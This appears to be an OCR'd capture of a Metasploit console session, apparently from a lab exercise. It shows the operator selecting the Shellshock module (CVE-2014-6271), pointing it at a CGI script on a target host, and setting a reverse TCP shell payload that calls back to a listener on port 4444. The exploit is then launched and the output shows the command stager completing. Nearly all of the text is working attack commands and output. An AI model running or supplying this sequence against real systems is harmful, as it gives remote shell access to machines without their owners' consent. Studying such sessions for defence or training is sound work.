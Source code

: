 ```

   Name                                      Disclosure Date  Rank    Check  Description
   ----                                      ---------------  ----    -----  -----------
   [...]
   linux/x86/shell_reverse_tcp                                normal  No     Linux Command Shell, Reverse TCP Inline
   [...]

msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set payload linux/x86/shell/reverse_tcp
payload => linux/x86/shell/reverse_tcp
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set lhost 10.99.78.205
lhost => 10.99.78.205
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set rhosts 10.99.59.112
rhosts => 10.99.59.112
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set targeturi /cgi-bin/test.sh
targeturi => /cgi-bin/test.sh
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > show options

Module options (exploit/multi/http/apache_mod_cgi_bash_env_exec):

   Name            Current Setting   Required  Description
   ----            ---------------   --------  -----------
   CMD_MAX_LENGTH  2048              yes       CMD max line length
   CVE             CVE-2014-6271     yes       CVE to check/exploit (Accepted: CVE-2014-6271, CVE-2014-6278)
   HEADER          User-Agent        yes       HTTP header to use
   METHOD          GET               yes       HTTP method to use
   Proxies                           no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS          10.99.59.112      yes       The target address range or CIDR identifier
   RPATH           /bin              yes       Target PATH for binaries used by the CmdStager
   RPORT           80                yes       The target port (TCP)
   SRVHOST         0.0.0.0           yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT         8080              yes       The local port to listen on.
   SSL             false             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                           no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI       /cgi-bin/test.sh  yes       Path to CGI script
   TIMEOUT         5                 yes       HTTP read response timeout (seconds)
   URIPATH                           no        The URI to use for this exploit (default is random)
   VHOST                             no        HTTP server virtual host


Payload options (linux/x86/shell/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.99.78.205     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux x86


msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > exploit

[*] Started reverse TCP handler on 10.99.78.205:4444 
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
```